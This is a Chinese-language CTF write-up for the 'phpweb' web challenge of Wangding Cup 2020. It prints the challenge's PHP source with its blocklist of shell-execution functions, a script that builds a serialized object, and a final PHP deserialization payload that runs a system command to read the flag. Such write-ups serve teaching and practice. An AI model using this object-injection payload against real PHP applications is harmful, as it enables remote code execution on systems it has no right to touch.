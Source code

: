 ```yaml
---
layout: post
title: 网鼎杯 2020 朱雀组 web wp
date: 2021-07-22 14:55 +0800
last_modified_at: 2021-07-22 14:55:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

## 0x01 phpweb

关键词：反序列化，代码注入

进入界面，开幕雷击

抓包发现变量func和p，猜测func是待执行的函数，p为func的参数

![image-20210227162119517](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/wdb1.png)

更改func为readfile或file_get_contents，p改为index.php尝试获取index.php的源代码

```
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
?>
```

源码发现Test类中调用gettime函数，gettime函数中存在函数执行，并且disabled_function中并无unserialize，因而可以通过反序列化进行执行

反序列化代码段：

```
<?php
    class Test {
        var $p = "cat $(find / -name flag*)";
        var $func = "system";
        function __destruct() {
            if ($this->func != "") {
            echo gettime($this->func, $this->p);
            }
        }
    }
    $a = new Test();
    echo urlencode(serialize($a));
?>
```

最终payload: 

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:25:"cat $(find / -name flag*)";s:4:"func";s:6:"system";}
```

成功获取flag

![image-20210227163130046](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/wdb2.png)



